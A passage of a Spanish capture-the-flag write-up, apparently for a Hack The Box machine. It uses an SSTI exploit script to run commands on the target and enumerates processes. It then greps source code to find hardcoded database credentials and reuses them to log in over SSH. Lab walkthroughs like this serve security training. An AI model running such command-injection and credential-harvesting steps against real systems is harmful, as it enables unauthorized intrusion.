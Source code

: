 Esto automatiza todo de manera que nos muestra en consola el comando ejecutado:

```bash wrap=false
❯ python3 ssti.py "whoami"
woodenk

❯ python3 ssti.py "id"
uid=1000(woodenk) gid=1001(logs) groups=1001(logs),1000(woodenk)
```

Si intenramos conseguir una **reverse shell**, no lo conseguiremos de ninguna manera, debe de haber algún firewall o alguna regla que nos lo impide. Enumerando un poco los procesos vemos esto:

```bash wrap=false
root         875  0.0  0.1   6812  2928 ?        Ss   Oct04   0:00 /usr/sbin/cron -f
root         878  0.0  0.1   8356  3340 ?        S    Oct04   0:00  \_ /usr/sbin/CRON -f
root         896  0.0  0.0   2608   596 ?        Ss   Oct04   0:00      \_ /bin/sh -c sudo -u woodenk -g logs java -jar /opt/panda_search/target/panda_search-0.0.1-SNAPSHOT.jar
root         897  0.0  0.2   9420  4576 ?        S    Oct04   0:00          \_ sudo -u woodenk -g logs java -jar /opt/panda_search/target/panda_search-0.0.1-SNAPSHOT.jar
woodenk      900  0.1 11.1 3106828 225684 ?      Sl   Oct04   1:54              \_ java -jar /opt/panda_search/target/panda_search-0.0.1-SNAPSHOT.jar
woodenk    19230  0.0  0.1   9484  3976 ?        R    20:32   0:00                  \_ ps -faux
```

Vemos el directorio `/opt/panda_search`, si hacemos una búsqueda recursiva con el usuario `woodenk`:

```bash wrap=false
❯ python3 ssti.py "grep -r woodenk /opt/panda_search/ 2>/dev/null" | grep -vE "jpg|Binary"
/opt/panda_search/target/classes/templates/stats.html:        &lt;a href=&quot;/stats?author=woodenk&quot;&gt;&lt;p&gt;woodenk&lt;/p&gt;&lt;/a&gt;
/opt/panda_search/src/main/resources/templates/stats.html:        &lt;a href=&quot;/stats?author=woodenk&quot;&gt;&lt;p&gt;woodenk&lt;/p&gt;&lt;/a&gt;
/opt/panda_search/src/main/java/com/panda_search/htb/panda_search/MainController.java:		if(author.equals(&quot;woodenk&quot;) || author.equals(&quot;damian&quot;))
/opt/panda_search/src/main/java/com/panda_search/htb/panda_search/MainController.java:		if(author.equals(&quot;woodenk&quot;) || author.equals(&quot;damian&quot;))
/opt/panda_search/src/main/java/com/panda_search/htb/panda_search/MainController.java:            conn = DriverManager.getConnection(&quot;jdbc:mysql://localhost:3306/red_panda&quot;, &quot;woodenk&quot;, &quot;RedPandazRule&quot;);
```

Vemos las credenciales `woodenk:RedPandazRule`:

```bash wrap=false
❯ ssh woodenk@10.10.11.170
The authenticity of host '10.10.11.170 (10.10.11.170)' can't be established.
ED25519 key fingerprint is SHA256:RoZ8jwEnGGByxNt04+A/cdluslAwhmiWqG3ebyZko+A.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes 
Warning: Permanently added '10.10.11.170' (ED25519) to the list of known hosts.
woodenk@10.10.11.170's password: 
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-121-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun 05 Oct 2025 08:36:33 PM UTC

  System load:           0.09
  Usage of /:            80.9% of 4.30GB
  Memory usage:          38%
  Swap usage:            0%
  Processes:             212
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.170
```